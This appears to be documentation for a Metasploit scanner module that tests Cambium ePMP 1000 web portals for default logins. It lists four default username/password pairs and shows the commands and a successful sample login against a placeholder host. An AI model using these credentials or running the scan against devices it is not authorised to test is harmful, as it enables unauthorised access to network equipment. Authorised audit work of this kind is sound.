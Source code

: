 This module scans for Cambium ePMP 1000 management login portal(s), and attempts to identify valid credentials.
Default login credentials are - admin/admin, installer/installer, home/home and readonly/readonly.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_web_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/epmp1000_web_login
msf auxiliary(epmp1000_web_login) > set rhosts 1.2.3.4
msf auxiliary(epmp1000_web_login) > set username installer
msf auxiliary(epmp1000_web_login) > set password installer
msf auxiliary(epmp1000_web_login) > run

[+] 1.2.3.4:80 - Running Cambium ePMP 1000 version 3.0...
[*] 1.2.3.4:80 - Trying username:"installer" with password:"installer"
[+] SUCCESSFUL LOGIN - 1.2.3.4:80 - "installer":"installer"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
